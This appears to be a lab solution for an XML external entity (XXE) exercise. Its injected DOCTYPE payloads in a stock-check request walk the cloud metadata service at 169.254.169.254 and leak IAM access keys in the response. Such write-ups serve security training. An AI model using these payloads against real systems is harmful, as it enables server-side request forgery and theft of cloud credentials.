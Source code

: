 ```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>2</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>&xxe;</productId>
		<storeId>1</storeId>
	</stockCheck>
Response: "Invalid product ID: latest"
	
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
Response: "Invalid product ID: meta-data"
	
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
Response: "Invalid product ID: iam"
	
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
Response: "Invalid product ID: security-credentials"
	
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
Response: "Invalid product ID: admin"
	
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
Response: "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2021-11-18T20:54:15.719601Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "yT93WICm9RXIMVSB5CcD",
  "SecretAccessKey" : "iSFxR1lEx0KCdNFnTGCdOsOtlAS8x2qVMpkBKhOE",
  "Token" : "67cZGemzaw3IOPF39MboahnI0OGSf8NGtjYWoGA8uO0Rg2SE0IhYdlgJMHRKXgQJMHoPonYcS3kejBQiMaVF5nv5N8HEeYd2DWcufUwiKtr73GKRQLzbwTnVJ6HknsADpKY7Z4HPU5Kgsh02aQjqGsfqjnjLZlLnfSV04Xz3qRXrE080fPFhNuviCIq51DFkpsYDCsIW7MDnT4PMxxGLkNh6HumdFiGJse1qVwxJ21BUKFkcCZhheimiZrnUWuRz",
  "Expiration" : "2027-11-17T20:54:15.719601Z"
}"
```

